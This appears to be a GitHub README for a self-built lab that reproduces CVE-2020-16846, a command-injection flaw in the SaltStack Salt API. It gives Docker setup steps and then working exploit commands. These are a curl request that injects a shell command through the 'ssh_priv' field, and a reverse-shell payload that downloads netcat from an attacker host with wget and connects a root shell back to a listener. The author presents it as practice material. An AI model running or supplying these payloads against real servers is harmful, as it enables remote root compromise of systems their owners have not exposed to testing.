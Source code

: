 # CVE-2020-16846-Saltstack-Salt-API

Vulnerability Explained: An issue was discovered in SaltStack Salt through 3002. Sending crafted web requests to the Salt API, with the SSH client enabled, can result in shell injection. The details about this vulnerability can be found here:

https://www.zerodayinitiative.com/blog/2020/11/24/detailing-saltstack-salt-command-injection-vulnerabilities

For practice and learning purposes, I have decided to create a vulnerable instance and exploit it.

Vulnerable version: https://github.com/saltstack/salt/releases/tag/v3002

Tested on Ubuntu 20.04.03

## Instructions

Use the Dockerfile to create a vulnerable instance in Docker.

Run salt_setup.sh if want to create a vulnerable instance on an ubuntu VM. 

#### Build the image

> docker build -t salt-image .

####  
Run the container and expose ports (only 8080 is actually needed to be able to exploit it)

> docker run -p4506:4506 -p4505:4505 -p8000:8000 -it salt-image:latest

![api](img/api.png)

#### Exploitation

> curl -i $salt_ip_addr:$salt_api_port/run -H "Content-type: application/json" -d '{"client":"ssh","tgt":"A","fun":"B","eauth":"C","ssh_priv":"|id>/tmp/test #"}'

![reverse_shell](img/rev_shell_payload.png)

Reverse shell

```
root@kali:~# curl -i $salt_ip_addr:$salt_api_port/run -H "Content-type: application/json" -d '{"client":"ssh","tgt":"A","fun":"B","eauth":"C","ssh_priv":"| /usr/bin/wget http://$attacker_ip/nc -O /root/nc; chmod +x /root/nc; rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|/root/nc $attacker_ip $listener_port >/tmp/f  #"}'
```

![pwned](img/pwned.png)